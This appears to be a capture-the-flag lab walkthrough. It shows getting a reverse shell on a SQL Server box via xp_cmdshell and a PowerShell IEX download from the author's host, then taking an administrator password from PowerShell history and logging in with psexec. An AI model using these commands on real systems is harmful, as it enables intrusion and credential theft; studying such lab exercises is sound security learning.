 I have changed the ip address and listening port as well lets upload it to the SQL and check if we can get the reverse  shell or not.

I am going to set up python server on the local machine on port 80 and going to get the rshell file from the sql ```python3 -m http.server 80```

I am going to use the below powershell command to upload the rev shell script to the machine via sql.

```Powershell

xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.231/rshell.ps1\");"
```


As per [[25-Uploading Reverse Shell]] we have the upload script ready, All i have to do is to start the netcat listener and wait for the reverse shell.


![[Pasted image 20210403175556.png]]


After running the command i go the reverse shell without any issues.


![[Pasted image 20210403175623.png]]

Lets navigate and check whats there for us. After going to the folder Desktop i was able to find the user.txt.

![[Pasted image 20210403175916.png]]


After getting the shell the first thing we always need to check is the powershell history. Import things might be found over there. Lets see what we have over there interesting.

```Powershell

type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

```

![[Pasted image 20210403180253.png]]

After checking i got the admin username and password. ``administrator:MEGACORP_4dm1n!!``

Since we got the username and password now we can login to the computer as admin using psexec.py from impacket.

![[Pasted image 20210403181122.png]]


After that i am successfully able to pwn the machine.

Its really an awesome machine to be honest which is very good for beginner friendly. Really learned few important commands which will be helpful in future for sure.

Thank you for this box!